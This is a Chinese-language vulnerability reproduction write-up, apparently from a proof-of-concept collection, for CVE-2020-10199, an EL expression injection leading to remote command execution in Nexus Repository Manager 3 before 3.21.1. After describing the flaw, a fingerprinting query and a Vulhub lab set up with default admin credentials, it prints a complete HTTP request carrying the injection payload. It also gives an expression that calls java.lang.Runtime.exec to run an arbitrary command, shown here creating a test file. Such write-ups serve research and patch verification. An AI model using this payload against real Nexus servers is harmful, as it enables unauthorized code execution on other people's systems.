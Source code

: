 # Nexus Repository Manager 3 group 远程命令执行漏洞 CVE-2020-10199

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199

## 漏洞影响

```
Nexus < 3.21.1
```

## 网络测绘

```
app="Nexus-Repository-Manager"
```

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。

![image-20220226235800485](images/202202262358582.png)

## 漏洞复现

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: your-vps-ip:8081
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://your-vps-ip:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://your-vps-ip:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=d7f44169-393b-446a-815d-0eff3acf5a71
Connection: close
Content-Length: 203

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```

![image-20220228160259183](images/202202281602297.png)

发送数据包后，如果提示Anti cross-site request forgery token mismatch，需要在Headers中加入：

 ```
 NX-ANTI-CSRF-TOKEN: <your-csrf-token>
 ```

参考https://github.com/jas502n/CVE-2020-10199，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}`即可成功执行任意命令。

![image-20220228160500100](images/202202281605213.png)

命令`touch /tmp/awesome_poc`执行成功：

![image-20220228160528457](images/202202281605519.png)
